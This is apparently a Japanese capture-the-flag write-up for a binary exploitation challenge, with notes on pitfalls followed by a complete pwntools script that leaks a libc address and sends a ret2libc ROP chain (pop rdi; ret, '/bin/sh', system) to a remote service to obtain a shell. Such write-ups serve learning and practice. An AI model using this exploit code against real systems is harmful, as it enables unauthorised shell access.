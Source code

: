 # ポイント

- `1` と入力した時に出力されるlibcのアドレスが正しくない。これはひどい。
- 最初の8バイトはRBPに格納されるため、捨てる。その後8バイトずつスタックに格納される。
- 最後payload送った後、しっかりrecv()してあげないと上手くいかない。
- pop rdi; ret は問題ファイルにもあるが、そこに飛ばすと上手くいかない
  -> libcのアドレスは流出させてるので確実だが問題ファイルないのアドレスは変動的。
  



# 解法

`libc.so.6` は自分のローカル環境から取ってきた。

"AAAAAAAA"

+"`pop rdi; ret` のアドレス"

+"`/bin/sh/` のアドレス"

+"`system` のアドレス"



```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

from pwn import *

libc = ELF('./libc.so.6')
offset_libc_system = libc.symbols[b'system']
offset_libc_binsh = 0x18cd57
offset_rop_addr = 0x00021102

rhp = {'host': '192.168.33.12', 'port':1234}
conn = remote(rhp['host'], rhp['port'])

res = conn.recvuntil(':')
log.info(res)
res = conn.recvuntil(':')
log.info(res)

conn.sendline('2')
log.info('send 2')

res = conn.recvuntil(':')
log.info(res)

conn.sendline('system')
log.info('send system')

res = conn.recvline()
log.info(res)

system_addr = int(res[-19:-1], 16)
log.info(hex(system_addr))
libc_addr = system_addr - offset_libc_system
binsh_addr = libc_addr + offset_libc_binsh
rop_addr = libc_addr + offset_rop_addr

res = conn.recvuntil(':')
log.info(res)

conn.sendline('3')
log.info('send 3')

res = conn.recvuntil(':')
log.info(res)

conn.sendline('32')
log.info('send 32')

payload = b'A' * 8
payload += p64(rop_addr)
payload += p64(binsh_addr)
payload += p64(system_addr)

conn.sendline(payload)
log.info('send payload')

conn.sendline(payload)
res = conn.recv()
log.info(res)
# conn.sendline('4')

conn.interactive()

```

